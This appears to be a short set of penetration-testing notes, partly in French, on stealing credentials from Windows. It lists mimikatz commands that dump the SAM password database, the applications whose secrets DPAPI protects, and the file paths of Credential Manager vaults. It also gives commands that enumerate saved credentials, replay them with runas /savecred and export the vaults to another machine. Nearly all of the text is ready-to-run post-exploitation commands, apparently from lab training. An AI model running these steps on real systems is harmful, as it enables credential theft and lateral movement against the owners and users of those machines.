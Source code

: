 Dump SAM

```
privilege::debug
token::elevate
lsadump::sam
```



## DPAPI

|Applications|Use of DPAPI|
|---|---|
|`Internet Explorer`|Password form auto-completion data (username and password for saved sites).|
|`Google Chrome`|Password form auto-completion data (username and password for saved sites).|
|`Outlook`|Passwords for email accounts.|
|`Remote Desktop Connection`|Saved credentials for connections to remote machines.|
|`Credential Manager`|Saved credentials for accessing shared resources, joining Wireless networks, VPNs and more.|

## Credential Manager

- `%UserProfile%\AppData\Local\Microsoft\Vault\`
- `%UserProfile%\AppData\Local\Microsoft\Credentials\`
- `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
- `%ProgramData%\Microsoft\Vault\`
- `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`


Enumérer les creds

```cmd
cmdkey /list
```

rejouer les creds avec runas

```powershell
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

Possible d'exporter les vaults au format .crd en y mettant un mot de passe et les importer sur une autre machine windows.

```cmd-session
rundll32 keymgr.dll,KRShowKeyMgr
```

